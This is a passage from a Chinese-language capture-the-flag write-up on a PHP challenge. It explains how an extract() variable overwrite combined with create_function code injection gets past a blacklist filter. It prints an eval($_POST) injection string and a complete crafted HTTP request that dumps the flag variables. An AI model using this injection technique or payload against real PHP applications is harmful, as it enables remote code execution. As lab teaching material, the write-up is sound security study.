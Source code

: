 ```
Content-Length: 13

debu=1&file=1
```

最后一关当然是最困难的。

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```

过滤了很多函数，不让我们直接读flag。分析一下，code和arg两个变量似乎没有明显的赋值语句，不过在上一关的`extract($_GET["flag"]);`是extract变量覆盖漏洞，相当于变量任意控制了。此处考点是[create_function](https://www.php.net/manual/en/function.create-function.php)代码注入，这玩意相当于php曾经的匿名函数，早已废弃，新版本已经移除了。函数效果如下：

```php
$newfunc = create_function('$a,$b', 'return $a+$b;');
//等同于
function newfunc($a,$b){
    return $a+$b;
}
```

这个函数虽然说是动态生成一个函数，但是我感觉内部动态生成实现应该和拼接有点关系。假如我们参数这么传：

```php
$newfunc = create_function('', '}eval($_POST["cmd"]);//');
```

这个创建出来的newfunc会是什么样的呢？第一眼可能觉得，这个函数体是什么东西啊？没头没尾的大括号，莫名其妙的注释符，这能生成？答案是能，效果如下：

```php
function newfunc(){
}eval($_POST["cmd"]);//}
```

开始的大括号闭合原来函数的大括号，之后就能任意写代码了，末尾注释符再把原来的大括号闭合上。现在就能构造payload了，code借用变量覆盖漏洞赋值为create_function，arg则赋值为`}任意代码;//`。至于任意代码那里填什么，看程序有一句`include "flag.php";`，这里面应该有flag变量，用[get_defined_vars()](https://www.runoob.com/php/php-get_defined_vars-function.html) 函数+var_dump全部输出出来。

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61_is_%63%75%74%65%0A&file=data://text/plain,%64%65%62%75_%64%65%62%75_%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//&%66%6c%61%67[%63%6f%64%65]=create_function HTTP/1.1
Host: 88734034-7928-4073-b847-9974a354e8f5.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

debu=1&file=1
```
